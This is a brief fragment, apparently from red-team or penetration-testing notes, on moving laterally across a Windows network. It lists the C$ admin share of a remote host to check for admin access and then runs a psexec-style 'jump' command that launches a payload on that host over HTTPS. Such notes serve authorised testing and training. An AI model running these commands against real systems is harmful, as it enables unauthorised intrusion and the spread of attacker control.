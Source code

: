 Enumerate remote admin access manually
````
ls \\<remote system name>\c$
````
If successful
````
jump psexec_psh <IP> HTTPS
````